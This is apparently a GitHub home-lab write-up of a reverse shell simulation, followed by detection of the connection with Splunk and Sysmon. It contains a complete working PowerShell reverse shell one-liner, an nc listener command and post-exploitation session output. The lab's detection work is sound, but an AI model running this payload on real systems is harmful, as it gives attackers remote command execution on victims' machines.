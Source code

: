 # 🎯 C2 Payload: Reverse Shell Simulation

## Objective
Simulate a basic reverse shell attack from the **Victim (Windows 10)** machine to the **Attacker (Kali)**, and monitor the connection using **Splunk + Sysmon** on the **Defender (Ubuntu)**.

---

## 🧪 Lab Details

| Role     | OS           | IP Address     |
|----------|--------------|----------------|
| Attacker | Kali Linux   | `192.168.0.11` |
| Victim   | Windows 10   | `192.168.0.12` |
| Defender | Ubuntu (Splunk) | `192.168.0.10` |

---

## 🛠️ Payload Used (PowerShell Reverse Shell)

Executed from the **Victim** machine (PowerShell):

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```
Note: Defender blocked it initially. Real-time protection was temporarily disabled in Windows Security for testing.

## 🖥️ Kali Listener Setup

On the Attacker machine (Kali):
nc -lvnp 4444

Successfully received incoming shell from Victim:
connect to [192.168.0.13] from (192.168.0.12) 49280
![Screenshot 2025-04-25 124346](https://github.com/user-attachments/assets/c15da569-4be4-4ddd-9196-e2b718d1eba4)

<details>
  <summary>📄 Session Output (Click to Expand)</summary>

**Command:** `whoami`  
**Output:**
victim-win\vboxuser

---

**Command:** `hostname`  
**Output:**
Victim-Win

---

**Command:** `ipconfig`  
**Output:**
Ethernet adapter Ethernet: IPv4 Address. . . . . . . . . . . : 10.0.2.15 Default Gateway . . . . . . . . . : 192.168.0.1

Ethernet adapter Ethernet 2: IPv4 Address. . . . . . . . . . . : 192.168.0.12 Default Gateway . . . . . . . . . : 192.168.0.1

---

**Command:** `systeminfo`  
**Output:**
Host Name:                 VICTIM-WIN
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-20000-00001-AA947
Original Install Date:     4/19/2025, 2:30:44 PM
System Boot Time:          4/25/2025, 7:25:04 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 151 Stepping 2 GenuineIntel ~3187 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 1,404 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 1,930 MB
Virtual Memory: In Use:    3,574 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\VICTIM-WIN
......

---

**Command:** `dir`  
**Output:**
Mode                 LastWriteTime         Length Name                                                                 
====                 =============         ====== ====                                                                
d-r---         4/19/2025   2:30 PM                3D Objects                                                           
d-r---         4/19/2025   2:30 PM                Contacts                                                             
d-r---         4/22/2025   4:01 PM                Desktop                                                              
d-r---         4/19/2025   2:30 PM                Documents                                                            
d-r---         4/19/2025   7:56 PM                Downloads                                                            
d-r---         4/19/2025   2:30 PM                Favorites                                                            
d-r---         4/19/2025   2:30 PM                Links                                                                
d-r---         4/19/2025   2:30 PM                Music                                                                
d-r---         4/19/2025   2:32 PM                OneDrive                                                             
d-r---         4/19/2025   2:32 PM                Pictures                                                             
d-r---         4/19/2025   2:30 PM                Saved Games                                                          
d-r---         4/19/2025   2:32 PM                Searches                                                             
d-r---         4/19/2025   2:30 PM                Videos           

---

**Command:** `cd Desktop`  
**Command:** `echo You Have been Hacked > hacked.txt`  
![Screenshot 2025-04-25 143943](https://github.com/user-attachments/assets/d1c6573f-c40f-4cc7-a46d-9d2b085865c5)
**Command:** `dir`  
**Output:**
    Directory: C:\Users\vboxuser\Desktop


Mode                 LastWriteTime         Length Name                                                                 
====                ==============         ====== ====                                                                
d-----         4/22/2025   4:05 PM                sysmon-config-master                                                 
-a----         4/25/2025  12:51 PM              0 hacked.txt                                                           
-a----         4/19/2025   4:34 PM           2348 Microsoft Edge.lnk                                                   
-a----         4/19/2025   7:37 PM        1118208 sysmon_logs.evtx      
</details>

## 🔍 Detection via Splunk (EventCode 3)
Logged and verified the following:
```
index=sysmon EventCode=3 DestinationPort=4444
| table _time, Image, User, DestinationIp, DestinationPort
```
✅ Observed PowerShell creating a TCP connection to Kali on port 4444.
![Screenshot 2025-04-25 140538](https://github.com/user-attachments/assets/28aec82d-ae51-4fc1-9b1f-3031f59ddddb)

